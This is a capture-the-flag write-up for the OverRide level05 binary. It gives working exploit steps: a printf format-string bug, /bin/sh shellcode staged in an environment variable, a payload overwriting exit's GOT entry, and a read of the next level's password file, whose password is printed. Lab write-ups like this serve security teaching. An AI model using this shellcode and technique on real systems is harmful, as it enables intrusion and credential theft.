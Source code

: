 ## Step 1: Static & Dynamic Analysis

```c
08048444    int32_t main(int32_t argc, char** argv, char** envp)
08048444    {
08048444        int32_t var_14 = 0;
08048475        void buffer;
08048475        fgets(&buffer, 100, __bss_start);
0804847a        int32_t var_14_1 = 0;
0804847a        
080484ed        while (true)
080484ed        {
080484ed            int32_t i = 0xffffffff;
080484f1            void* buffer_ptr = &buffer;
080484f1            
080484f3            while (i)
080484f3            {
080484f3                bool is_byte_exist = 0 != *(uint8_t*)buffer_ptr;
080484f3                buffer_ptr += 1;
080484f3                i -= 1;
080484f3                
080484f3                if (!is_byte_exist)
080484f3                    break;
080484f3            }
080484f3            
080484fe            if (var_14_1 >= ~i - 1)
080484fe                break;
080484fe            
080484a9            if (*(uint8_t*)(&buffer + var_14_1) > 64 && *(uint8_t*)(&buffer + var_14_1) <= 90)
080484c9                *(uint8_t*)(&buffer + var_14_1) ^= 32;
080484c9            
080484cb            var_14_1 += 1;
080484ed        }
080484ed        
08048507        printf(&buffer);
08048513        exit(0);
08048444    }
```

### Explatation
This binary reads user input into a buffer of 100 bytes using `fgets()`, then processes it by converting uppercase letters to lowercase before printing it with `printf()`. However, the vulnerability lies in the call to `printf()` with the buffer as only argument, which allows for a `format string attack`.

```bash
level05@OverRide:~$ python -c 'print("AAAA" + ("%x " * 15))' | ./level05 
aaaa64 f7fcfac0 f7ec3af9 ffffdbff ffffdbfe 0 ffffffff ffffdc84 f7fdb000 61616161 25207825 78252078 20782520 25207825 78252078
```

This confirms that we control the input processed by `printf()`. Additionally, we can see that our buffer appears at the 10th position in `printf()`'s stack view.

```asm
0x08048376 in exit@plt ()
(gdb) disas
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
=> 0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
```

The function `exit()` is used at the end of `main()`, 
When `exit()` is called, `exit@plt` will jump to the addresses contained in `0x80497e0`, so if we can overwrite this GOT entry, we can redirect execution to our shellcode.

```bash
level05@OverRide:~$ env -i PAYLOAD=$(python -c 'print("\x90" * 1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb ./level05
```

We creat an environement variable containing a shellcode and then start a debuging session with gdb.
The goal is to find the address where the shellcode is stored.

```
x/200s environ
...
0xffffdb91:      "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220
```

So the beginning of our shell code is `0xffffdb99` (`0xffffdb91` + `PAYLOAD=`).
Since writing a large value like `0xffffdb99` directly using a format string would either cause `printf()` to fail or take too long, we need to split the address into two parts. First, we write the lower 2 bytes, followed by the upper 2 bytes.

```python
>>> hex(0xffffdb99 + 100)
'0xffffdbfd'
>>> 0xdbfd
56317
>>> 0xffff
65535
>>> 56317 -4 -4
56309
>>> 65535 - 56317
9218
```

## Step 2: Exploiting the Binary
```bash
level05@OverRide:~$ python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56309d%10$hn" + "%9218d%11$hn")' > /tmp/exploit

level05@OverRide:~$ cat /tmp/exploit - | env -i PAYLOAD=$(python -c 'print("\x90" * 1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05

...
% cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```